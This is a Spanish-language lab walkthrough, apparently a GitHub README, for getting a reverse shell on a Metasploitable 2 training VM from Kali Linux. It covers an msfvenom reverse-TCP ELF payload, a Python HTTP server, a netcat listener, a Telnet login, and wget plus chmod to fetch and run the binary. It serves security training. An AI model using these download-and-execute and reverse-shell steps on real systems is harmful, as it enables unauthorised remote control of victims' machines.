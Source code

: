# Shell Inversa con Telnet
Obtener una shell remota desde una máquina vulnerable (Metasploitable 2) hacia Kali Linux usando un binario malicioso (shell.elf) creado con msfvenom, subido por Telnet, y ejecutado para generar una conexión inversa con Netcat.

## 1. CREAR EL PAYLOAD

Usamos msfvenom para generar un payload tipo ELF (Linux) que abre una shell inversa hacia Kali en el puerto 4444.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.171.132 LPORT=4444 -f elf -o shell.elf
```
![image](https://github.com/user-attachments/assets/9832a339-55b6-4310-a799-575a489c714f)

## 2. Servir el archivo en Kali

Se usa un servidor HTTP simple en Python para que Metasploitable pueda descargar el binario.

```bash
python3 -m http.server 8000
```

Esto hace levantar un servidor HTTP local en el puerto 8000 para servir archivos desde el directorio actual (donde está shell.elf).

![image](https://github.com/user-attachments/assets/d3a87a2d-e7e3-46dc-8f60-e940c0e36e04)

## 3. Escuchar con Netcat en Kali

Antes de ejecutar el binario en la víctima, nos preparamos para recibir la conexión con netcat:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/d231de41-07df-437a-b4c8-4a1f7919d6c5)

## 4. Descargar shell.elf en Metasploitable (vía Telnet)
# 4.1. Entra a Metasploitable por Telnet

```bash
telnet 192.168.171.133
```
Nos conectamos a Metasploitable, luego usamos wget para descargar el archivo desde el servidor de Kali.

![image](https://github.com/user-attachments/assets/4a34a147-b844-428b-bfac-64a488fd6e9e)

# 4.2. Descargamos shell.elf desde el servidor web de Kali

```bash
cd /tmp
wget http://192.168.171.132:8000/shell.elf

```
![Captura de pantalla 2025-05-28 115712](https://github.com/user-attachments/assets/00f004b2-19bb-4dd7-91fa-e724f75e79a9)


## 5. Dar permisos y ejecutar

Concedemos permisos de ejecución al binario y lo ejecutamos:

```bash
chmod +x shell.elf
./shell.elf
```
![image](https://github.com/user-attachments/assets/7a6e6478-d61d-4094-9816-d0c1aae34d57)


## 6. Shell obtenida

En la terminal donde estaba el  nc -nlvp 4444, se vera:

```bash
connect to [192.168.171.132] from (192.168.171.133) 12345
```

![image](https://github.com/user-attachments/assets/2f80a495-b6de-4ca9-885c-26346b23253f)

Y en la terminal de Kali (como se ve en la imagen), se registró la solicitud:

![image](https://github.com/user-attachments/assets/1cd50a84-0176-4700-b3fc-c9dbc7494f42)


por lo tanto ya se puede ejecutar comandos como si estuvieras dentro de la máquina Metasploitable:

![image](https://github.com/user-attachments/assets/711374e0-97ac-4824-be44-297071d7ce8d)
